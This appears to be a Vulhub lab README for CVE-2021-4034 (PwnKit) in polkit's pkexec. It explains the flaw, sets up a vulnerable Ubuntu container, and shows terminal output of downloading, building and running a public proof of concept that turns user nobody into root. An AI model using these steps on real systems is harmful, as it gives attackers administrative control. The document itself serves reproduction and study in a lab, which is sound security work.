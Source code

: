 # Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References: 

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

Because this vulnerability is not based on a service that running foreground, Vulhub just provided a Ubuntu that installed the Polkit (PolicyKit) v0.105.

You can run following command to enter the interactive shell on this Ubuntu:

```
docker-compose run --rm cmd bash
```

Then, execute `id`, it proves that you are just a normal user `nobody`:

![](2.png)

## Exploit

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```

![](1.png)

As you can see, I currently become a root user after exploits.
